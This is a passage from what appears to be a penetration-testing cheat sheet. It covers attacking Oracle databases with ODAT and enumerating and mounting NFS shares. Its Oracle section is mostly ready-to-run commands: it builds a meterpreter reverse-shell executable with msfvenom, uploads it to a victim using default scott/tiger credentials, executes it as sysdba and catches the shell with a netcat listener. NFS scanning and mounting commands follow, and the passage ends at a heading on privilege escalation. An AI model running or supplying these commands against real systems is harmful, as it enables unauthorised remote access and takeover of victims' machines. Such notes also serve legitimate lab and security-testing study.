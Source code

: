 - Generate payload
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<my_ip> LPORT=<my_port> -f exe > rs_file.exe
```
- upload file
```
python3 odat.py utlfile -s <victim_ip> -p 1521 -U "scott" -P "tiger" -d XE --putFile /temp rs_file.exe rs_file.exe
```

- execute file 
```
Run netcat
 nc -lnvp <your_port>
python3 odat.py externaltable -s <victim_ip> -p 1521 -U "scott" -P "tiger" -d XE --exec /temp shell.exe --sysdba
```


--------------------------------------------------------------------------------------------------------------------------------------

# NFS

--------------------------------------------------------------------------------------------------------------------------------

- The Network File System (NFS) is a client/server application that lets a computer user view and optionally store and update files on a remote computer as though they were on the user's own computer. The NFS protocol is one of several distributed file system standards for network-attached storage (NAS).


- Install basic  tools
```
sudo apt install nfs-common
```

- List the NFS shares
```
usr/sbin/showmount -e [IP]
```

- Mounting NFS shares
```
mkdir /tmp/mount
sudo mount -t nfs IP:share /tmp/mount/ -nolock

-nolock	Specifies not to use NLM locking
```

- nmap_scan 
```
nmap -sV --script=nfs-showmount [victim_ip]
nmap -p [victim_port] --script=nfs-ls,nfs-statfs,nfs-showmount [victim_ip]
```

## Exploiting NFS
If machine has an NFS share you might be able to use that to escalate privilege.

